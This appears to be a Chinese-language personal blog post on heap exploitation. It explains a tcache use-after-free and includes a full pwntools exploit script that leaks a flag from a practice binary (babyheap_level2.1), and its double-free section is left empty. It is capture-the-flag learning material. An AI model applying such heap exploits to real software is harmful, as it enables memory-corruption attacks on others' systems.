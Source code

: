 ```yaml
---
layout: post
tags: [pwn]
title: "heap 利用手法"
author: wsxk
date: 2025-3-1
comments: true
---
```


- [1. tcache](#1-tcache)
  - [1.1 uaf(use after free)](#11-uafuse-after-free)
  - [1.2 double free](#12-double-free)

# 1. tcache<br>
## 1.1 uaf(use after free)<br>
常用的 tcache uaf是指，**分配一个内存A，由ptr指向；释放后ptr并没有置空；此时分配内存时再利用又分配了内存A，往其中写入机密信息；此时可皆由ptr来读出机密信息**<br>
```python
from pwn import *
context.os = 'linux'
context.arch = 'amd64'
context.log_level = 'debug'

binary_path = "./babyheap_level2.1"
libc_path = "./libc.so.6"

p = process(binary_path)


def malloc(size):
    p.recvuntil(b"[*] Function (malloc/free/puts/read_flag/quit): ")
    p.sendline(b"malloc")
    p.recvuntil(b"Size: ")
    p.sendline(str(size).encode())
    return

def free():
    p.recvuntil(b"[*] Function (malloc/free/puts/read_flag/quit): ")
    p.sendline(b"free")
    return

def read_flag():
    p.recvuntil(b"[*] Function (malloc/free/puts/read_flag/quit): ")
    p.sendline(b"read_flag")
    return

def puts():
    p.recvuntil(b"[*] Function (malloc/free/puts/read_flag/quit): ")
    p.sendline(b"puts")
    return

read_flag()
p.recvuntil(b"[*] flag_buffer = ")
chunk_addr1 = int(p.recvline().strip(b"\n"),16)
log.success(f"chunk_size:{hex(chunk_addr1)}")
read_flag()
p.recvuntil(b"[*] flag_buffer = ")
chunk_addr2 = int(p.recvline().strip(b"\n"),16)
log.success(f"chunk_size:{hex(chunk_addr2)}")

chunk_size = chunk_addr2 - chunk_addr1 -0x10
malloc(chunk_size)
free()
read_flag()#uaf
puts()

p.interactive()
```

## 1.2 double free<br>




<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>

